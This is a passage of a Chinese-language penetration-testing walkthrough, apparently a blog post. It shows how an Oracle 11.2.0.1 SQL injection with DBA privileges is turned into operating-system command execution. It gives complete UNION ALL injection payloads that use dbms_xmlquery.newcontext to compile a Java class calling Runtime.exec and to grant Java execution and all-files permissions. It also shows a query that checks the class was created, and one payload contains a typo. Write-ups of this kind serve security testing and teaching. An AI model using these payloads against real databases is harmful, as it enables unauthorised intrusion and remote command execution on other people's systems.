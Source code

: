 oracle版本为11.2.0.1，是可以执行命令的。继续查看权限，执行：

  * 

    
    
    select role from session_roles

权限为DBA权限：

![](https://gitee.com/fuli009/images/raw/master/public/20221214112534.png)

开始创建JAVA Source，执行：

  * 

    
    
    UNION ALL SELECT dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

查看是否创建成功的命令：

  * 

    
    
    select OWNER,OBJECT_NAME,OBJECT_TYPE from all_objects where object_name like '%LINX%' or object_name like '%Linx%'

![](https://gitee.com/fuli009/images/raw/master/public/20221214112535.png)

接下来是Java赋执行权限，但是此之前我们需要先给用户添加java运行权限，因此先执行：

  * 

    
    
    NION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate '' grant JAVASYSPRIV to SYSTEM ''commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

![](https://gitee.com/fuli009/images/raw/master/public/20221214112536.png)

再执行：

  * 

    
    
    UNION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

![](https://gitee.com/fuli009/images/raw/master/public/20221214112538.png)
